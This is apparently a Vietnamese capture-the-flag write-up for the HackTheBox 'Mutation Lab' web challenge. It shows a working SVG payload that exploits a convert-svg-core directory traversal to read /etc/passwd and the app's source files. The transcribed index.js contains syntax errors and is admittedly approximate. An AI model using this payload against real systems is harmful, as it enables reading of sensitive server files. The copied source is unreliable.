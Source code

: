 ```yaml
---
title: "HackTheBox - Mutation Lab"
author: "mtiennnnn"
tags: web js cookie convert-svg-core
---
```


# Foreword
Đây là một challenge trong mục web của Hack The Box, challenge này từ sự kiện hackthebox Cyber Apocalypse CTF 2022 mà mình đã không tham gia. Nay vào làm thì thấy nó released trên trang chủ luôn nên mình làm cho vui.

# Information Gathering
Mới vào thì web sẽ hiện cho ta một form đăng kí, đăng nhập như sau:

![image](https://user-images.githubusercontent.com/75429369/171791521-df1d7302-4033-4fe8-8c3d-a32eaca40643.png)

Không có gì đặc biệt ở đây cả, mình sẽ đăng nhập vào để xem bên trong có gì:

![image](https://user-images.githubusercontent.com/75429369/171791819-ba3f76ab-8782-47f2-a85d-6a185f307a11.png)

Giao diện trong khá ảo ma nhỉ, ta có thể rê chuột vào 2 cái hình động kia sẽ có hoạt ảnh trông rất thú vị. 

Mình thử nút `Export` bên dưới xem có gì hay ho không.

![image](https://user-images.githubusercontent.com/75429369/171791974-45801b11-3881-4825-872b-9d92bd590f1d.png)

Web đã xuất ra một bức ảnh `.png` và có uri exports để lưu bức ảnh này, cùng xem thử trong quá trình export đã có request như thế nào.

```
POST /api/export HTTP/1.1
Host: 159.65.92.13:31751
Content-Length: 3230
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.92.13:31751
Referer: http://159.65.92.13:31751/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJ1c2VybmFtZSI6Im10aWVubm5ubiJ9; session.sig=e1cXHePRSVWGyVYjR45Gt-8f1v8
Connection: close

{"svg":"<svg version=\"1.1\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" width=\"500\" height=\"400\" viewBox=\"0,0,500,400\"><g fill=\"#e74c3c\" fill-rule=\"nonzero\" stroke=\"none\" stroke-width=\"1\" stroke-linecap=\"butt\" stroke-linejoin=\"miter\" stroke-miterlimit=\"10\" stroke-dasharray=\"\" stroke-dashoffset=\"0\" font-family=\"none\" font-weight=\"none\" font-size=\"none\" text-anchor=\"none\" style=\"mix-blend-mode: normal\"><path d=\"M58.81077,277.73462c17.48102,-86.6988 17.48102,-86.6988 -10.01256,-99.30301c-27.49358,-12.60421 -27.49358,-12.60421 -27.49358,91.82529c0,104.4295 2.06633,104.4295 11.04573,99.30301c8.9794,-5.12649 8.9794,-5.12649 26.46042,-91.82529z\"/><path d=\"M118.05814,166.94914c39.30895,-15.47572 39.30895,-15.47572 45.94716,-79.17471c6.63822,-63.69898 6.63822,-63.69898 -66.80253,-63.69898c-73.44074,0 -73.44074,0 -73.44074,66.5705c0,66.5705 0,66.5705 27.49358,79.17471c27.49358,12.60421 27.49358,12.60421 66.80253,-2.87152z\"/><path d=\"M154.01163,374.48502c72.98165,0 72.98165,0 86.33736,-7.89551c13.35571,-7.89551 13.35571,-7.89551 14.16973,-80.04817c0.81402,-72.15266 0.81402,-72.15266 -46.72862,-99.40551c-47.54264,-27.25284 -47.54264,-27.25284 -86.85159,-11.77712c-39.30895,15.47572 -39.30895,15.47572 -56.78996,102.17452c-17.48102,86.6988 -17.48102,86.6988 -0.29979,91.82529c17.18123,5.12649 17.18123,5.12649 90.16288,5.12649z\"/><path d=\"M32.48736,374.63742c-8.9794,5.12649 -8.9794,5.12649 17.18123,5.12649c26.16062,0 26.16062,0 8.9794,-5.12649c-17.18123,-5.12649 -17.18123,-5.12649 -26.16062,0z\"/><path d=\"M325.04437,182.79643c63.50827,-23.72707 63.50827,-23.72707 54.66376,-90.95183c-8.84451,-67.22476 -8.84451,-67.22476 -104.41269,-67.22476c-95.56818,0 -95.56818,0 -102.2064,63.69898c-6.63822,63.69898 -6.63822,63.69898 40.90442,90.95183c47.54264,27.25284 47.54264,27.25284 111.05091,3.52578z\"/><path d=\"M316.43828,374.63919c22.48412,0 22.48412,0 81.75938,-28.93053c59.27526,-28.93053 59.27526,-28.93053 49.82962,-93.02798c-9.44564,-64.09745 -9.44564,-64.09745 -32.41834,-74.84471c-22.9727,-10.74726 -22.9727,-10.74726 -86.48097,12.9798c-63.50827,23.72707 -63.50827,23.72707 -64.32229,95.87973c-0.81402,72.15266 -0.81402,72.15266 14.16722,80.04817c14.98124,7.89551 14.98124,7.89551 37.46537,7.89551z\"/><path d=\"M245.73418,371.74088c-13.35571,7.89551 -13.35571,7.89551 14.98124,7.89551c28.33695,0 28.33695,0 13.35571,-7.89551c-14.98124,-7.89551 -14.98124,-7.89551 -28.33695,0z\"/><path d=\"M419.18975,169.25139c22.9727,10.74726 22.9727,10.74726 40.64657,5.24788c17.67387,-5.49939 17.67387,-5.49939 17.67387,-77.97202c0,-72.47264 0,-72.47264 -49.49108,-72.47264c-49.49108,0 -49.49108,0 -40.64657,67.22476c8.84451,67.22476 8.84451,67.22476 31.81721,77.97202z\"/><path d=\"M470.92452,323.90736c8.22823,8.08264 8.22823,8.08264 8.22823,-69.59684c0,-77.67947 0,-77.67947 -17.67387,-72.18009c-17.67387,5.49939 -17.67387,5.49939 -8.22823,69.59684c9.44564,64.09745 9.44564,64.09745 17.67387,72.18009z\"/><path d=\"M401.13118,349.63785c-59.27526,28.93053 -59.27526,28.93053 8.22823,28.93053c67.50349,0 67.50349,0 67.50349,-20.84789c0,-20.84789 0,-20.84789 -8.22823,-28.93053c-8.22823,-8.08264 -8.22823,-8.08264 -67.50349,20.84789z\"/></g></svg>"}
```

Hmm, như vậy có thể suy luận: lúc mình nhấn `export` thì web đã gửi một POST request với data là `svg`, sau đấy từ data svg ấy sẽ tạo ra ảnh `png` và lưu lại với tên file gì gì đấy `.png` trong mục `exports`. Từ đây sẽ có một hướng suy nghĩ là cái data svg này mình hoàn toàn có thể điều chỉnh được và file svg đổi thành png ấy hoàn toàn được lưu trên server nên ta có thể dùng nó dể gây lỗi.

Tới đây thì mình đi tìm xem cái `svg to png` (hay đại loại vậy) có bị lỗi bảo mật đã bị report trên mạng đã có hay chưa để giải bài này, vì ai chơi Hackthebox cũng biết rằng site này rất thích ra challenge có lỗi dựa trên việc sử dụng những module hay thư viện nào đấy phiên bản cũ. Mình tìm được khá nhiều nguồn và cuối cùng tìm được bài [này](https://security.snyk.io/vuln/SNYK-JS-CONVERTSVGCORE-1582785). Đại khái là packet `convert-svg-core`có bug. Trang này viết như sau:

![image](https://user-images.githubusercontent.com/75429369/171794796-168e7d66-9f46-4914-ac6d-e5404b4bfbc3.png)

>"Affected versions of this package are vulnerable to Directory Traversal. Using a specially crafted SVG file, an attacker could read arbitrary files from the file system and then show the file content as a converted PNG file."

Dòng trên đọc khá là đúng hướng làm của bài này, có sẵn POC ở dưới nên mình sẽ dùng thử xem như thế nào.

```
<svg-dummy></svg-dummy> <iframe src=\"file:///etc/passwd\" width=\"100%\" height=\"1000px\"></iframe> <svg viewBox=\"0 0 240 80\" height=\"1000\" width=\"1000\" xmlns=\"http://www.w3.org/2000/svg\"> <text x=\"0\" y=\"0\" class=\"Rrrrr\" id=\"demo\">data</text> </svg>

# nhớ thêm backslash để escape character
```

![image](https://user-images.githubusercontent.com/75429369/171794237-2d484fa3-0798-4afe-a965-5ef7f755e61a.png)

Access để xem có gì nào

![image](https://user-images.githubusercontent.com/75429369/171794287-5901d24a-237b-418b-a77d-3e671db2fd53.png)

Yay đọc được etc/passwd, vậy là POC hoạt động mượt :))

Tới đây mình mới ngồi mò làm cố gắng tìm đường rce các thứ nhưng tất cả đều vô dụng, mình quyết định hỏi hint của một anh bạn chơi chung và được 1 hint là đi đọc source code đi (cảm ơn bạn rất nhiều luôn). Thì ok, mình đọc source, những bài js của hackthebox (và nhiều giải khác) sẽ có workdir là `/app`, thì mình thử đọc `/app/index.js` thôi.

![image](https://user-images.githubusercontent.com/75429369/171825288-84d057cd-bf25-474d-95aa-f342540460cf.png)

/index.js
```js
const express = require('express');
const session = require('cookie-session');
const app = express ;
const path = require('path');
const cookieParser = require('cookie-parser');
const nunjucks = require('nunjucks');
const routes = require('./routes');
const Database = require('./database');

const db = new Database('database.db');

app.use(express.json({limit: '2mb'})); 
app.use(cookieParser(); 

require('dotenv').config({ path: '/app/.env'}); 
app.use(Session({
	name: 'session',
	keys: [process.env.SESSION_SECRET_KEY] 
}))

nunjucks.configure('views', {
	autoescape: true,
	express: app 
});

app.set('views', './views'); 
app.use('/static', express.static(path.resolve('static')));
app.use('/exports', express.static(path.resolve('exports')));

app.use(routes (db));

app.all('*', (req, res) => { 
	return res.status (404).send({
		message: '404 page not found'
	});
});

(async () => {
	await db.connect();
	await db.migrate();
	app.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
})();
```
_Note: source có thể không giống 100% tại mình copy bằng blackbox nên sợ không đúng, mong các bạn thông cảm_

